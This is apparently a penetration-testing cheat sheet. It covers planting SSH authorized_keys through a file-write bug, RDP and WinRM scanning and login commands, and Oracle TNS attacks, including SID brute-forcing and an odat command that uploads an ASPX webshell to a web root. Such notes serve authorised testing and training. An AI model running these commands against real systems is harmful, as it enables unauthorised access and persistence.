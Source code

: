 **~/.ssh/authorized_keys**
During a pentest or audit, you might want to add an authorized_keys file to let you log in using an SSH key. The authorized_keys file lives in a user’s home directory on the SSH server.  It holds the public keys of the users allowed to log into that user’s account. 
* Generate a public/private key pair like this: `ssh-keygen -f mykey`
* Change the name of `mykey.pub` to `authorized_keys` and move the file to the server

If you want to shortest possible key (because your arbitrary-file-write vector is limited), do this:
* `ssh-keygen -f mykey -t rsa -b 768`

Connect to the target system like this (you need to know the username of the user you added an authorized key for):
* `ssh -i mykey user@10.0.0.1`

Caveat: The authorized_keys file might not work if it’s writable by other users.  If you already have shell access you can `chmod 600 ~/.ssh/authorized_keys`.  However, if you’re remotely exploiting an arbitrary file-write vulnerability and happen to have a weak umask, you may have problems.
##### Windows Remote Management (**[RDP](https://book.hacktricks.xyz/network-services-pentesting/pentesting-rdp)** TCP 3389 - **[WinRM](https://book.hacktricks.xyz/network-services-pentesting/5985-5986-pentesting-winrm)** TCP 5985, 5986, ¿47001?)

**RDP Attacks**: https://academy.hackthebox.com/module/116/section/1171
* Password attack through Hydra, Crackmapexec or Crowbar. 
* RDP Session Hijacking
* Pass-the-Hash (PtH)

|**Command**|**Description**|
|-|-|
| `nmap -sV -sC 10.129.201.248 -p3389 --script rdp*` | Nmap port scan for RDP |
| `rdp-sec-check.pl <FQDN/IP>` | Check the security settings of the RDP service. |
| `xfreerdp /u:<user> /p:"<password>" /v:<FQDN/IP>` | Log in to the RDP server from Linux. |
| `nmap -sV -sC 10.129.201.248 -p5985,5986 --disable-arp-ping -n*` | Nmap port scan for WinRM |
| `evil-winrm -i <FQDN/IP> -u <user> -p <password>` | Log in to the WinRM server. |
| `wmiexec.py <user>:"<password>"@<FQDN/IP> "<system command>"` | Execute command using the WMI service. |
##### **[Oracle TNS](https://book.hacktricks.xyz/network-services-pentesting/1521-1522-1529-pentesting-oracle-listener)** (TCP 1521, 1522-1529)

> We can use `dbeaver` app to connect any database through GUI

| **Command**                                                                                                                                                                             | **Description**                                                                                         |
| --------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | ------------------------------------------------------------------------------------------------------- |
| `sudo nmap -p1521 -sV 10.129.204.235 --open`                                                                                                                                            | Nmap port scanning                                                                                      |
| `sudo nmap -p1521 -sV 10.129.204.235 --open --script oracle-sid-brute`                                                                                                                  | Nmap SID bruteforcing                                                                                   |
| `sudo odat all -s <FQDN/IP> --output-file scripts/odat-enumeration`                                                                                                                     | Perform a variety of scans to gather information about the Oracle database services and its components. |
| `sqlplus <user>/<pass>@<FQDN/IP>/<db>`                                                                                                                                                  | Log in to the Oracle database.                                                                          |
| `select table_name from all_tables;`                                                                                                                                                    | SQLPlus: query all tables                                                                               |
| `/opt/odat/odat.py utlfile -s 10.129.36.208 -p 1521 -d XE -U SCOTT -P tiger --sysdba --putFile C:\\inetpub\\wwwroot shell.aspx cmdasp.aspx`<br/>`go to http://10.129.36.208/shell.aspx` | Upload a webshell.                                                                                      |
##### **[LDAP](https://book.hacktricks.xyz/network-services-pentesting/pentesting-ldap)** (TCP 389,636,3268,3269)
